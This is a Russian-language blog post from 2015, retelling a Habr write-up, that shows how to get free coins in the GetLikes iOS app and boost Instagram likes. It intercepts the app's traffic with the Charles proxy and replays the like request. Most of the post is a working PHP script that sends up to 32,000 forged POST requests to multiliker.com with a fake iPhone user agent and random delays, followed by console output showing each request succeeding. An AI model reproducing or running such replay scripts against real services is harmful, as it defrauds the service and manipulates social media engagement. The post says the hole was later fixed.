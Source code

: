 ```yaml
---
title: Как «накрутить лайки» в Instagram, используя уязвимость приложения «GetLikes» для iOS
slug: how-get-likes-in-instagram-using-getlikes-vulnerability
date: 2015-06-26T11:44:42+00:00
aliases: [/hack/how-get-likes-in-instagram-using-getlikes-vulnerability]
image: featured-image.jpg
categories: [hack]
tags:
  - hack
  - instagram
  - iOS
  - like
  - linux
  - php
  - proxy
---
```


> Данный пост является повторением действий, описанных хабраюзером [jo1n](https://habr.com/users/jo1n/) в его [посте](https://habr.com/post/261153/) на хабре.
>
> Disclaimer: Все действия носят сугубо познавательный характер. Более того - "накручивать лайки" - дело лишенное какого-либо смысла, всё рассмотренное ниже стоит рассматривать только как познавательный материал.

Для того, чтоб "накрутить лайки" мы будем использовать одну уязвимость, найденную тов. jo1n в приложении "[GetLikes][1]" для iOS, которая позволяет получать "монеты" в одноименном приложении без выполнения каких-либо действий (таких как установка "лайков" другим участникам приложения), и в последствии тратить их на то, чтоб нам к нашим фотографиям ставили массово эти самые "лайки".

<!--more-->

Рассмотрим весь процесс в виде нескольких этапов.

#### Подготовка

Для выполнения поставленной задачи нам потребуются:

  1. iPhone, на который есть возможность устанавливать приложения и изменять настройки сетевого подключения;
  2. Компьютер под управлением Windows (Linux / Mac OS);
  3. Подключение обоих устройств к одной WiFi точке;
  4. Подключение к сети интернет;

На компьютер скачиваем и устанавливаем [Сharles](http://www.charlesproxy.com/download/) - прокси-сервер для отладки web-приложений. После установки - запускаем (_не забываем **разрешить** доступ приложению к сети в настройках брандмауэра / межсетевого экрана_), и проверяем настройки порта и наличия статуса в правом нижнем углу "Recording":

![screenshot](https://hsto.org/files/44e/18f/38a/44e18f38ac914963b597148d64fbaa22.png)

#### Настройка

После этого - переходим к настройке iPhone на работу через наш прокси сервер. Для этого смотрим какой у нас IP присвоен компьютеру:

![screenshot](https://hsto.org/files/86b/99c/cae/86b99ccae5c74559af83db17f62aaf86.png)

И укажем полученные нами настройки в WiFi подключении iPhohe (`Настройки` &rarr; `Wi-Fi` &rarr; тап по `(i)` напротив активного подключения):

![screenshot](https://hsto.org/files/c24/323/086/c24323086faf4896bf16b405ae3705fd.png)

#### Установка приложения на iPhone

Далее - ставим приложение (поиск в App Store по словам `Get likes on Instagram` - третий результат) и авторизируемся в нем c помощью учетной записи от Instagram:

![screenshot](https://hsto.org/files/3af/065/7cc/3af0657cc9374a48b39908417b053ccb.png)

#### Получение запроса, который отправляет приложение

После этого очищаем текущую сессию в Charles, ставим 1 сердце, и смотрим что он нам покажет:

![screenshot](https://hsto.org/files/dee/165/898/dee1658989334baeb47ae4f56aa8aaaa.png)

- `hash` — наш токен, который обновляется при авторизации в приложении;
- `media` — номер изображения, которому мы поставили лайк;
- `answer` — ответ от сервера instagram (поставили ли мы лайк или нет?).

#### Эксплуатация уязвимости

Уязвимость сервиса заключается в том, что этот же самый запрос мы можем выполнить очень много раз, вне зависимости от того - поставили мы "сердце" или же нет - нам будет зачислена 1 "монета". Автоматизируем данный процесс, например, при помощи такого php-скрипта:

```php
<?php

function postData($url, $data){
  $curl = curl_init();
  curl_setopt($curl, CURLOPT_URL, $url);
  curl_setopt($curl, CURLOPT_RETURNTRANSFER,true);
  curl_setopt($curl, CURLOPT_POST, true);
  curl_setopt($curl, CURLOPT_POSTFIELDS, $data);
  curl_setopt($curl, CURLOPT_USERAGENT, "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_0 ".
    "like Mac OS X; en-us) AppleWebKit/532.9 (KHTML, like Gecko) Version/4.0.5 ".
    "Mobile/8A293 Safari/6531.22.7");
  $out = curl_exec($curl);
  curl_close($curl);
  return $out;
}

if(!isset($argv[1]) && !isset($argv[2])) {
  die("You must pass *hash* and *media* strings in arguments".PHP_EOL);
} else {
  $hash = $argv[1];
  $media = $argv[2];
  $likes_count = 32000;

  $i = 0;
  while ($i < $likes_count){
    $delay = rand(10, 2000) / 1000;
    $out = json_decode(postData('http://www.multiliker.com/service/like2/', 'hash='.$hash.
                                '&#038;media='.$media.'&#038;answer={"status":"ok"}'), true);
    echo '['.$i.'] '.$out['result'].': '.$out['message'].' (delay '.$delay.')'.PHP_EOL;
    if($out['result'] !== 'success') {
      die('Update *hash* and *media* values'.PHP_EOL);
    }
    $i++;
    sleep($delay);
  }
}
```

И запускаем его из консоли на нашем дедике (первый параметр - это `hash` из ответа выше, а второй, соответственно - `media`):

```bash
$ php ./likes_craft.php "a752a54b08158c8fdee279d8fc2fc494013c911c" "1015696816576458399_632650570"
[0] success: Like has been received (delay 0.146)
[1] success: Like has been received (delay 0.592)
[2] success: Like has been received (delay 0.761)
[3] success: Like has been received (delay 1.937)
[4] success: Like has been received (delay 0.088)
[5] success: Like has been received (delay 1.189)
[6] success: Like has been received (delay 0.023)
[7] success: Like has been received (delay 1.557)
...
```

После чего можем убрать настройки прокси-сервера, оставить скрипт работать в фоне, а в приложении наблюдать как появляются халявные "монеты". Можно теперь их тратить на накрутку сердец :)

Знают ли разработчики о наличии уязвимости? Да, знают. Когда исправят и исправят ли вообще? Не известно.

### Update. Хуяюшки, усё пофиксили. Надо было раньше тебе успевать

[1]:http://www.multiliker.com
